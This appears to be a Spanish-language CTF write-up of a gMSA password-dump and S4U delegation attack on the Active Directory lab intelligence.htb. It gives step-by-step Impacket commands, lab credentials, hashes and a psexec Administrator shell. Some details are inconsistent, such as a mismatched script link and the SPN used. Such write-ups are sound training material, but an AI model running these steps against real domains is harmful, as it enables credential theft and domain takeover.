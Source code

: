 # GMSA abusing and s4u delegation attack [ReadGMSAPassword] + [AllowedToDelegate]

## Descripción del ataque

Este ataque aprovecha dos permisos clave para comprometer un entorno de Active Directory mediante una **cuenta de servicio administrada de grupo (gMSA)**:

1. **ReadGMSAPassword**: Este permiso permite leer la contraseña Kerberos asociada a la cuenta gMSA. Utilizando herramientas como [`gMSADumper.py`](https://github.com/micahvandeusen/gMSADumper), se extrae el hash NTLM de la cuenta de servicio, lo que proporciona acceso inicial para realizar operaciones en su contexto.

2. **AllowedToDelegate**: Este permiso habilita la delegación de credenciales, lo que permite a la cuenta gMSA actuar en nombre de otros usuarios. Combinando los ataques **S4U2Self** y **S4U2Proxy**, es posible generar un **Ticket de Servicio (ST)** para un SPN arbitrario (por ejemplo, `cifs/dc.intelligence.htb`) e impersonar a un usuario privilegiado como `Administrator`.

El resultado final es el acceso a recursos protegidos o sistemas críticos, explotando la configuración indebida de permisos en la cuenta gMSA.

## Objetivo y ejemplo de uso en un CTF

- El objetivo es obtener un **Ticket de Servicio (ST)** para un SPN arbitrario (como `cifs/dc.intelligence.htb`) **impersonando a un usuario privilegiado**, aprovechando que la cuenta `svc_int$` tiene permiso para delegar.

---

![Diagrama del ataque](./GMSA-abuse.png)

---

## Herramientas utilizadas

- [`gMSADumper`](https://github.com/micahvandeusen/gMSADumper)
- [`Impacket`](https://github.com/fortra/impacket)
    - [`getTGT.py`](https://github.com/fortra/impacket/blob/master/examples/getTGT.py)
    - [`getST.py`](https://github.com/fortra/impacket/blob/master/examples/getST.py)
- [`ntpdate`](https://man7.org/linux/man-pages/man8/ntpdate.8.html)
- [`nxc`](https://github.com/NextCry/nxc)

---

### Pasos del ataque

1. Ejecutar `gMSADumper.py` para extraer el hash NTLM de la cuenta `svc_int$`:
     ```bash
     python3 gMSADumper.py -u 'TED.GRAVES' -p 'Mr.Teddy' -d 'intelligence.htb'
     ```
     Resultado:
     ```
     svc_int$:::b05dfb2636385604c6d36b0ca61e35cb
     ```

2. Utilizar `getTGT.py` para obtener un TGT usando el hash NTLM de `svc_int$`:
     ```bash
     getTGT.py 'INTELLIGENCE.HTB/svc_int$' -hashes :b05dfb2636385604c6d36b0ca61e35cb
     export KRB5CCNAME=/home/kali/svc_int$.ccache
     ```

3. Impersonar al usuario `Administrator` con `getST.py`:
     ```bash
     getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_int$ -hashes :b05dfb2636385604c6d36b0ca61e35cb
     ```
     Resultado:
     ```
     [*] Requesting S4U2Proxy
     [*] Saving ticket in Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
     ```

4. Exportar el nuevo ticket:
     ```bash
     export KRB5CCNAME=Administrator@WWW_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
     ```

5. Conectarse al sistema objetivo con `psexec.py`:
     ```bash
     psexec.py -k -no-pass INTELLIGENCE.HTB/Administrator@dc.intelligence.htb
     ```

     Ejemplo de salida:
     ```
     Microsoft Windows [Version 10.0.17763.1879]
     (c) 2018 Microsoft Corporation. All rights reserved.

     C:\Windows\system32> type c:\Users\Administrator\Desktop\root.txt
     1375c5a7e7b13d7d9e063dd4629cb806
     ```

---


## Versión en powershell
- [Script](https://raw.githubusercontent.com/gtworek/PSBits/refs/heads/master/Misc/EnableSeRestorePrivilege.ps1)
- `. .\Invoke-GMSAPasswordReader.ps1`
- Invoke-GMSAPasswordReader -Command "--AccountName USERNAME"

```powershell

Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : <OLD_RC4_HASH>
[*]       aes128_cts_hmac_sha1 : <OLD_AES128_HASH>
[*]       aes256_cts_hmac_sha1 : <OLD_AES256_HASH>
[*]       des_cbc_md5          : <OLD_DES_HASH>

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : <CURRENT_RC4_HASH>
[*]       aes128_cts_hmac_sha1 : <CURRENT_AES128_HASH>
[*]       aes256_cts_hmac_sha1 : <CURRENT_AES256_HASH>
[*]       des_cbc_md5          : <CURRENT_DES_HASH>


```
- siendo `<CURRENT_RC4_HASH>` el NT hash de la cuenta


## Referencias


### ReadGMSAPassword

- [Retrieving Cleartext gMSA Passwords from Active Directory](https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/)
- [DSInternals PowerShell Module](https://www.powershellgallery.com/packages/DSInternals/)
- [PSgMSAPwd](https://github.com/markgamache/gMSA/tree/master/PSgMSAPwd)
- [Active Directory Security - gMSA](https://adsecurity.org/?p=36)
- [Active Directory Security - Delegation Abuse](https://adsecurity.org/?p=2535)
- [Event ID 4662](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4662)
- [The Hacker Recipes - ReadGMSAPassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)

### AllowedToDelegate

- [S4U - Rubeus](https://github.com/GhostPack/Rubeus#s4u)
- [Trust: Years to Earn, Seconds to Break](https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/)
- [S4U2Pwnage](https://blog.harmj0y.net/activedirectory/s4u2pwnage/)
- [Gentil Kiwi - S4U Tweet](https://twitter.com/gentilkiwi/status/806643377278173185)
- [Kerberos Delegation, SPNs, and More](https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more)
- [From Kekeo to Rubeus](https://blog.harmj0y.net/redteaming/from-kekeo-to-rubeus/)
- [Another Word on Delegation](https://blog.harmj0y.net/redteaming/another-word-on-delegation/)
- [The Hacker Recipes - Delegations](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained)
